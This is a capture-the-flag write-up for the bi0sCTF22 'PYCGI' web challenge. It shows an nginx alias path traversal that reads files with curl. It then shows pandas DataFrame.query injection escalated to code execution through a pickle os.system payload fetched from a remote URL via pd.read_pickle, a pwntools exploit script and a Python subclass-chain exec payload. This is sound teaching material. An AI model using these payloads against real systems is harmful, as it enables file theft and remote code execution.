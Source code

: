 ```yaml
---
title: PYCGI-bi0sCTF22
date: 2023-01-23
author: Yadhu Krishna M
author_url: https://twitter.com/YadhuKrishna_
categories: 
    - Web 
tags: 
    - Panda
    - RCE
    - nginx misconfiguration
---
```




**tl;dr**
    -Get the docker-entrypoint.sh using /static../docker-entrypoint.sh
    -Get the challenge files using /static../panda/cgi-bin/search_currency.py
    -Host your exploit and use x'|@pd.read_pickle('http://0.0.0.0:6334/output.exploit')|' to execute the exploit

<!--more-->

**Challenge points**: 887
**No. of solves**: 17



## Challenge Description

Hope its working. Can you check?
Note: No bruteforcing is required to solve this challenge.
The source code of this challenge can be downloaded from [here](https://github.com/yadhukrishnam/bi0sCTF22).


## Analysis

We are provided with 2 attachments for this challenge:
1. Dockerfile
2. Nginx.conf

Looking into the Nginx configuration, we can find that there is a potential path traversal in the `/static` endpoint. You can read more about this [here](https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md).
```css
location /static {
    alias /static/; 
}
```

Upon opening the challenge, we are presented with a directory indexing. 

![](https://i.imgur.com/d2E5x6Y.png)

Accessing the `cgi-bin` directory requires authentication.

Inside the templates folder we have an `index.html` file that discloses a filename - `search_currency.py`.


## Exploit

### Exploiting File Read

The path traversal can be exploited with:

```shell
curl http://instance.chall.bi0s.in:10846/static../etc/passwd --path-as-is
```

With this, we can retrieve and inspect some known files from the server.

### Gaining access to the service

On exploiting the Nginx path traversal, we can read `docker-entrypoint.sh`. 


![](https://i.imgur.com/eauklrJ.png)

`docker-entrypoint.sh` is a shell script that is typically used as the entrypoint for a Docker container. The purpose of the entrypoint script is to set up the environment and perform any necessary tasks before the main command or application is run. 

The script does the following:

1. It moves the file `flag.txt` to a new random location. 
2. The htpasswd command is used to create user named `admin` in the `/etc/.htpasswd` file with a specified password. This is used to protect the directory.
3. Spawns Nginx and FCGI.

The password specified in the htpasswd command is a non-printable character.

```
In [13]: ord('­')
Out[13]: 173
```

We can use this to access the service. 

## Understanding the service

We can use the path traversal vulnerability to read the contents of `search_currency.py`.

```bash
curl http://instance.chall.bi0s.in:10846/static../panda/cgi-bin/search_currency.py --path-as-is
```

```py
#!/usr/bin/python3

from server import Server
import pandas as pd

try:
    df = pd.read_csv("../database/currency-rates.csv")
    server = Server()
    server.set_header("Content-Type", "text/html")
    params = server.get_params()
    assert "currency_name" in params
    currency_code = params["currency_name"]
    results = df.query(f"currency == '{currency_code}'")
    server.add_body(results.to_html())
    server.send_response()
except Exception as e:
    print("Content-Type: text/html")
    print()
    print("Exception")
    print(str(e))
```

This script reads data from the CSV file and filters it based on a `currency_code` parameter, and returns the filtered data in the form of an HTML table in the HTTP response. 

### Code Injection ?

Upon looking closely, we find that the `currency_code` is directly passed into `df.query`. This appears similar to an SQL Injection.

If we take a look at the [implementation](https://github.com/pandas-dev/pandas/blob/2e218d10984e9919f0296931d92ea851c6a6faf5/pandas/core/frame.py#L4474) of `DataFrame.query` we can see that it uses `DataFrame.eval` internally. `DataFrame.eval` is considered dangerous if user-controllable input is passed, as stated in the [documentation](https://pandas.pydata.org/docs/reference/api/pandas.DataFrame.eval.html).

### Exploiting DataFrame.query

From the [documentation](https://pandas.pydata.org/docs/reference/api/pandas.DataFrame.query.html#pandas.DataFrame.query), it is clear that it is possible to refer to variables in the environment by prefixing them with an ‘@’ character like `@a + b`

Example:

```python
In [1]: import pandas as pd
p
In [2]: df = pd.read_csv("currency-rates.csv")

In [3]: a = 'ZUBI'

In [4]: df.query("currency == @a")
Out[4]: 
  currency  values
4     ZUBI    12.7
```

With this, it is now possible to access any global variable, and even invoke functions. 

```python
In [9]: def say_hello():
   ...:     print ("Hello World")
   ...: 

In [10]: df.query("currency == @say_hello()")
Hello World
Out[10]: 
Empty DataFrame
Columns: [currency, values]
Index: []
```

### Escalating to RCE

There could be multiple ways of gaining an RCE at this point. Here we look into two approaches:

#### Using Pandas

Pandas is a huge library supporting various functions. We could directly use this to gain an RCE. One possible solution is to use [pandas.read_pickle](https://pandas.pydata.org/docs/reference/api/pandas.read_pickle.html).

Example:

We prepare a pickled payload using the below code:

```python
import pickle
import os
import http.server
import socketserver
import random

command = "ls /"

class payload():
    def __reduce__(self):
        return os.system, ("{}".format(command),)


pickle.dump(payload(), open("output.exploit", "wb"))
```

The `output.exploit` file can be then hosted on a server. The below payload can be used to trigger pickle deserialization on the server, thus running our exploit script.

```
'|@pd.read_pickle('http://0.0.0.0:6334/output.exploit')|'
```

```python
import sys
import re
from pwn import *

exploit = sys.argv[1]

host="34.93.222.6"
port=10466

currency_name = f"x'|@pd.read_pickle('{exploit}/output.exploit')|'"
Authorization = "Basic YWRtaW46wq0="
path="/cgi-bin/search_currency.py"+"?currency_name="+currency_name
con = remote(host, port)
con.sendline(f"GET {path} HTTP/1.1\r\nHost: {host}:{port}\r\nAuthorization: {Authorization}\r\n\r\n".encode())

print(re.findall(r"bi0sctf{.*}", con.recv().decode())[0])
```

#### Using Chains

```
'|''.__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['builtins'].exec('import os;os.system(\"ls\");')|'
```

## Flag

```
bi0sCTF{9a18559a42e7302b15eeb45c09ab39d6}
```